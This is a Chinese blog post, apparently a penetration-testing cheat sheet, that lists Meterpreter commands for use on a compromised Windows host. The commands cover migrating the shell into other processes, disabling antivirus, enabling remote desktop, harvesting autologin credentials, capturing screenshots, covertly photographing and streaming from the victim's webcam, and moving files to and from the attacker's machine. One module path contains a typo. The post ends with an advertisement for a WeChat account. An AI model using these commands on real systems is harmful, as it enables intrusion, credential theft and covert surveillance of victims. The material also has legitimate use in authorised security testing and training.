 ```yaml
---
layout: post
category: curleyg-code-hack
title: Metasploit-Meterpreter-Shell信息收集相关的命令
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: Metasploit-Meterpreter-Shell信息收集相关的命令
lock: need
---
```


# Metasploit-Meterpreter-Shell信息收集相关的命令

PS：以下所有的命令都是在Metasploit-Meterpreter Shell下执行的。

## 进程迁移 

1、获取目标机正在运行的进程

```
ps
```

2.查看Meterpreter Shell的进程号

```
getpid
```

3.将Meterpreter Shell进程绑定到其他进程中

```
migrate 要绑定到的进程id号
```

4.系统自动寻找合适的进程迁移

```
run post/windows/manage/migrate
```

## 系统命令

1.查看目标机的系统信息

```
sysinfo
```

2.查看目标机是否运行在虚拟机上

```
run post/windows/gather/checkvm
```

3.查看目标机最近的运行时间

```
idletime
```

4.查看目标机完整的网路设置

```
route
```

5.将当前会话放到后台

```
background
```

6.查看目标机器上已经渗透成功的用户名

```
getuid
```

7.关闭目标机杀毒软件

```
run post/windows/manage/killav
```

8.启动目标机的远程桌面协议

```
run post/windows/manage/enable_rdp
```

9.查看目标机的本地子网情况

```
run post/windows/manage/autoroute
```

10.列举当前有多少用户登录了目标机

```
run post/windows/gather/enum_logged_on_users
```

11.列举安装在目标机上的应用程序

```
run post/windows/gather/enum_applications
```

12.抓取目标机自动登录的用户名和密码

```
run post/windows/gather/credentials/windows)autologin
```

13.抓取目标机屏幕截图

```
load espia
screengrab
```

或者

```
screenshot
```

14.查看目标机有没有摄像头

```
webcam_list
```

15.打开目标机摄像头拍照

```
webcam_snap
```

此命令会将目标机摄像头拍照的图片，以图片的形式保存在攻击机的/root目录下

16.开启摄像头直播模式

```
webcam_stream
```

此命令会将目标机摄像头录制的视频，以html文件的形式保存在攻击机的/root目录下

17.进行目标机shell

```
shell
```

18.停止Meterpreter会话或者停止Shell会话返回Meterpreter

```
exit
```

## 文件系统命令

1.查看当前处于目标机的哪个目录

```
pwd或getwd
```

2.查看当前处于本地的哪个目录

```
getlwd
```

3.列举目标机当前目录中的所有文件

```
ls
```

4.切换目标机目录

```
cd
```

5.搜索C盘所有以.txt为扩展名的文件

```
search -f *.txt -d c:\
```

其中，-f参数用于执行搜索文件模式，-d参数用于指定在哪个目录下进行搜索

6.下载目标机C盘的test.txt文件到攻击机/root下

```
download c:\test.txt /root
```

7.上传攻击机root目录下的test.txt文件到目标机C盘下

```
upload /root/test.txt c:\
```


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
